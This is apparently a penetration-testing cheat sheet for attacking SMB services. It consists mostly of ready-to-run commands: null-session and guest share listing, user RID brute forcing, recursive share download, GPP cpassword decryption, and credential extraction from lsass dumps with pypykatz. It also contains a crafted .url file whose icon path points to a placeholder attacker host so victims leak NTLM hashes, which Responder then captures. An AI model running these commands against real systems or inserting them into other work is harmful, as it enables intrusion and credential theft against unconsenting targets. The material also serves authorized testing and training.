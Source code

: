 # Server Message Block

### Search For Known SMB Version Vulnerabilities

### Check For Shares Using Null Sessions

```
smbclient -N -L //$ip/
```

```
cme smb $ip --shares -u "guest" -p ""
```

### URL File attacks

_Test for URL File attacks by creating a file called "@somename.url" with the following contents, upload, spin up smbserver to capture hash_

```
[InternetShortcut]
URL=blah
WorkingDirectory=blah
IconFile=\\EnterAttackerip\%USERNAME%.icon
IconIndex=1
```

_Run Responder to capture hashes_

```
/opt/Responder-3.1.3.0/Responder.py -I tun0
```

### Read / Upload access

_Attempt to download and view share contents using valid credential / anonymous login / null session_

```
smbmap -u guest -p "" -H $ip -A '.*' -R
```

### Cpassword discovery

_Search "Groups.xml" for cpassword decryption_

```
gpp-decrypt cpassword
```

### lsass.zip lsass.dmp

_search lsass.zip or lsass.dmp to use to dump credentials / keys / tickets_

```
pypykatz lsa minidump "lsass.zip"
```

### Alternate Data Streams (ADS)

_test for alternate data streams after discovering 0 byte files_

```
allinfo filename
```

### Check Password Policy

```
cme smb $ip --pass-pol -u guest -p ""
```

### User Discovery

_Check For users using valid credential / anonymous login / null session_

```
cme smb $ip --users -u guest -p ""
```

```
cme smb $ip --rid-brute -u guest -p ""
```

### Group discovery

_check for groups using valid credential / anonymous login / null session_

```
cme smb $ip --groups -u guest -p ""
```

### Smbclient

_Interactively access the smb shares using smbclient_

```
smbclient //$ip/someshare -N
```

```
smbclient //$ip/someshare -U 'guest' -N
```

```
smbclient //$ip/someshare -U 'validuser' -p 'validpass'
```
